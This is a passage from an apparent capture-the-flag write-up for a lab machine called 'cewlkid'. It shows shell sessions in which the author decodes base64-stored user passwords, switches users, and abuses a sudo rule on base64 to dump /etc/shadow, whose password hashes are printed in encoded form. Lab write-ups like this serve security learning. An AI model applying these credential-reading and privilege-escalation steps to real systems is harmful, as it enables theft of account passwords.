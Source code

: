 Lets decode these base64 hashes:
```
www-data@cewlkid:~/example.com/html/...$ echo "bG9yZW0gOiBQZW9wbGVTcGVhazQ0IQo=" | base64 -d
<echo "bG9yZW0gOiBQZW9wbGVTcGVhazQ0IQo=" | base64 -d
lorem : PeopleSpeak44!
www-data@cewlkid:~/example.com/html/...$ echo "aXBzdW0gOiBTcGVha1Blb3BsZTIyIQo=" | base64 -d
<echo "aXBzdW0gOiBTcGVha1Blb3BsZTIyIQo=" | base64 -d
ipsum : SpeakPeople22!
www-data@cewlkid:~/example.com/html/...$ 
```
So it seems we found two user passwords! Lets login with lorem first:
```
www-data@cewlkid:~/example.com/html/...$ su lorem
su lorem
Password: PeopleSpeak44!
```
executing `sudo -l` ginves interesting results.
```
lorem@cewlkid:/var/www/example.com/html/...$ sudo -l
sudo -l
Matching Defaults entries for lorem on cewlkid:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lorem may run the following commands on cewlkid:
    (root : root) NOPASSWD: /usr/bin/base64 /etc/shadow
```
So lorem can base64 encrypt the contents of `/etc/shadow` where the user passwords are stored. Lets do that:
```

lorem@cewlkid:~$ sudo /usr/bin/base64 /etc/shadow
sudo /usr/bin/base64 /etc/shadow
cm9vdDoqOjE4NDc0OjA6OTk5OTk6Nzo6OgpkYWVtb246KjoxODQ3NDowOjk5OTk5Ojc6OjoKYmlu
Oio6MTg0NzQ6MDo5OTk5OTo3Ojo6CnN5czoqOjE4NDc0OjA6OTk5OTk6Nzo6OgpzeW5jOio6MTg0
NzQ6MDo5OTk5OTo3Ojo6CmdhbWVzOio6MTg0NzQ6MDo5OTk5OTo3Ojo6Cm1hbjoqOjE4NDc0OjA6
OTk5OTk6Nzo6OgpscDoqOjE4NDc0OjA6OTk5OTk6Nzo6OgptYWlsOio6MTg0NzQ6MDo5OTk5OTo3
Ojo6Cm5ld3M6KjoxODQ3NDowOjk5OTk5Ojc6OjoKdXVjcDoqOjE4NDc0OjA6OTk5OTk6Nzo6Ogpw
cm94eToqOjE4NDc0OjA6OTk5OTk6Nzo6Ogp3d3ctZGF0YToqOjE4NDc0OjA6OTk5OTk6Nzo6Ogpi
YWNrdXA6KjoxODQ3NDowOjk5OTk5Ojc6OjoKbGlzdDoqOjE4NDc0OjA6OTk5OTk6Nzo6OgppcmM6
KjoxODQ3NDowOjk5OTk5Ojc6OjoKZ25hdHM6KjoxODQ3NDowOjk5OTk5Ojc6OjoKbm9ib2R5Oio6
MTg0NzQ6MDo5OTk5OTo3Ojo6CnN5c3RlbWQtbmV0d29yazoqOjE4NDc0OjA6OTk5OTk6Nzo6Ogpz
eXN0ZW1kLXJlc29sdmU6KjoxODQ3NDowOjk5OTk5Ojc6OjoKc3lzdGVtZC10aW1lc3luYzoqOjE4
NDc0OjA6OTk5OTk6Nzo6OgptZXNzYWdlYnVzOio6MTg0NzQ6MDo5OTk5OTo3Ojo6CnN5c2xvZzoq
OjE4NDc0OjA6OTk5OTk6Nzo6OgpfYXB0Oio6MTg0NzQ6MDo5OTk5OTo3Ojo6CnRzczoqOjE4NDc0
OjA6OTk5OTk6Nzo6Ogp1dWlkZDoqOjE4NDc0OjA6OTk5OTk6Nzo6Ogp0Y3BkdW1wOio6MTg0NzQ6
MDo5OTk5OTo3Ojo6CmxhbmRzY2FwZToqOjE4NDc0OjA6OTk5OTk6Nzo6Ogpwb2xsaW5hdGU6Kjox
ODQ3NDowOjk5OTk5Ojc6OjoKc3NoZDoqOjE4NTEyOjA6OTk5OTk6Nzo6OgpzeXN0ZW1kLWNvcmVk
dW1wOiEhOjE4NTEyOjo6Ojo6CmtpZGNld2w6JDYkOTloZ09VcVhPUXh6ZHQ4byQxc0FMUmhUaGs5
Mlo4emdpT2xuWlozbjNqVVc2Ny5rVXRWVnhLSGFMbktBc3Bybm1veVZjazh2WHNOTFY5QlQ0OU9J
TWtJQU1CNVhrN2pNaE5LL25uMToxODUxMjowOjk5OTk5Ojc6OjoKbHhkOiE6MTg1MTI6Ojo6OjoK
aXBzdW06JDYkeUZreE9SYkkuUHI3aE5BViRGUTVCSFdqb2lIUEVDUnpqRnc5MC9mbHZ1NzFpbkJU
djVGZlhUOXI3eTZ2VlNVL2lmTU5WWkoxdDFrNDNhcXl3Yi5CalNyOW5YeDJ1S0s3YkZ2OHRFLjox
ODUxNDowOjk5OTk5Ojc6OjoKbG9yZW06JDYkUzhsWlF5eEJrTjM0a3NiUiRnYXBsN09nbm1DeTBn
RzBvRzJjOTJnL0pHbGgvMHZnRVFneGh6UlR6NDZGZWpkN0lFTkZsUEdrZ1BVa1hLcVVPaUlsM1Zj
LjdGVGRtZ3FOQVB3R0ZnLjoxODUxNDowOjk5OTk5Ojc6OjoKemVyb2Nld2w6JDYkVmRENWpPbkVN
VWdqaUxXaiRnSzMxNXZMejgyTjJCUEtKQjJ0bFdRZkdIaWxnbW1qcVVReDZHWERHU1ZkWFMuV0Z1
cml0ZEIzaGFNa0RQeVROUFRyNFB2OGpJTjU0SmswakhpZUxmLjoxODUxNDowOjk5OTk5Ojc6OjoK
Y2V3bGJlYW5zOiQ2JDVmRndRazRhM1U3dE93Tmskdkdnd3YybVBmc3FGckpHV3NHeDJ2Ulo2OU5X
MmhiQnQ1YVh6RGtHRm5Nd1hrMnFBZUtXQlpqWTJudTllTnJMVnY5VnRpSEQ3elV5QS91RVFMbUpG
ejE6MTg1MTQ6MDo5OTk5OTo3Ojo6Cg==
lorem@cewlkid:~$ 
```
